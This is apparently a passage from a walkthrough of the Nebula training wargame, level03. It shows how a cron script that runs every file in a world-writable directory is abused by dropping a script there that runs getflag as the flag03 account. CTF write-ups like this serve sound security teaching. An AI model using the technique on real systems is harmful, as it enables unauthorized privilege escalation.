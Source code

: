 It's important to escape the backticks, so as we are not falling in
our own trap. But there you have it.

* * *

# [level03](https://exploit-exercises.com/nebula/level03/)
> ## About
>
>Check the home directory of flag03 and take note of the files there.
>
>There is a crontab that is called every couple of minutes.
>
>To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

*there's no source provided in this level*

After logging in as `level03`, we'll have a look around `/home/flag03/`.

~~~
$ ls -la /home/flag03
...
drwxrwxrwx 1 flag03 flag03  40 2011-11-20 21:22 writable.d
-rwxr-xr-x 1 flag03 flag03  98 2011-11-20 21:22 writable.sh
...
$ cat /home/flag03/writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
done
		
~~~

All the little shellscript does is run everything located in the
`writable.d` directory & then deletes everything in the directory.

Execution of `getflag` on the target account is thus trivial.

+ Create the shellscript & make it executable

~~~
$ cat << EOF > /home/flag03/writable.d/a.sh
#!/bin/bash
getflag > /tmp/flag03_output
EOF
$ chmod +x /home/flag03/writable.d/a.sh
~~~

+ Wait for the shellscript to run & confirm that it worked.

~~~
$ cat /tmp/flag03_output
You have successfully executed getflag on a target account
~~~
